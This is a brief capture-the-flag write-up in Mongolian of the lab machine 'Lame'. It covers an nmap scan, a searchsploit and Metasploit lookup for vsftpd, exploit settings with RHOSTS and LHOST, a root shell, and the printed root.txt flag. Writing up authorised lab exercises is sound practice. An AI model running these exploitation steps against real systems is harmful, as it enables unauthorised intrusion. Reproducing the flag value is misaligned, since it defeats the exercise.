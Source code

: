 # Machine name: Lame 
![Screenshot (67)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/84a2e27c-f06a-46b7-8d96-c2228e9faff1)

1. nmap  -sC -sV

2. ![Screenshot (68)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/354db9eb-2daf-43b3-a1af-33e9fc4c4eff)
- smb асаалттай байсан

  ![Screenshot (69)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/08675205-e0cf-4559-b1e2-90dd1fcc1934) 
  ### searchsploit командаар exploit ажиллаж болох эсэхийг шалгасан
  
![Screenshot (70)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/ad7f1a8f-e046-4fed-93a3-ad9d15e926ce)
* search vsftp

![Screenshot (76)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/a3ec83e6-234e-4510-b5c4-877a5296f4af)

__set RHOSTS 10.10.10.3__
__set LHOST 10.10.10.20
> exploit
> #whoami - root
> cat root.txt 
#### e083b214836676f6ed095a19117c9a6
